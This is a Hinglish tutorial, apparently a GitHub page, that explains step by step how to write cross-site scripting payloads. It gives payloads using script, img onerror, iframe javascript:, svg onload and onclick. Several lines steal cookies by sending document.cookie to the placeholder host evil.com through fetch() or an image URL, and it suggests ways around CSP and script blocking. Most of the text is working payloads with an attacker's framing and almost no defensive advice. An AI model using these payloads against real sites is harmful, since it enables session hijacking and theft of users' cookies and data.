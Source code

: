 # 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

**<img src="x" onerror="alert('XSS')">**

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

**<a href="#" onclick="alert('XSS')">Click me</a>**

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

```<img src="x" onerror="alert('Hello')">```

---

**"x"** → image path

---

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

```<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">```

---


### Agar website ne JavaScript ko block kar diya ho (ya CSP lagi ho), toh...

⚠️ Toh phir yeh sab payloads jaise:

**<script>alert(1)</script>**

```**<img src=x onerror=alert(1)>**```

---

```<svg onload=alert(1)>```

---

**<iframe src="javascript:alert(1)">**

kaam nahi karein ge ya blocked ho jaayenge ❌

### 🔐 Agar JavaScript block hai toh kya karein?

Acha sawal! Hacker kya karta hai?

✅ Kuch Alternate Attacks:

🖼️ Image-based exfiltration

**Kaise:** ```<img src="https://evil.com/steal?c=XYZ">```

---

agar allowed ho

🧱 Clickjacking / Phishing

**Kaise:** Form, fake button ya CSS-based UI banake

💉 HTML injection

**Kaise:**	Sirf HTML elements inject karne ki koshish

🧙‍♂️ DOM-based CSP bypass	

**Kaise:** Agar CSP weak ho, toh usko manipulate karna with script-src-elem



---

### ✅ Penetration Testing Tip:

Tumhara goal ye hona chahiye:

"Check karo JavaScript allowed hai ya nahi? Agar hai toh full XSS payload inject karo. Agar nahi, toh alternate methods try karo — ya CSP bypass check karo."




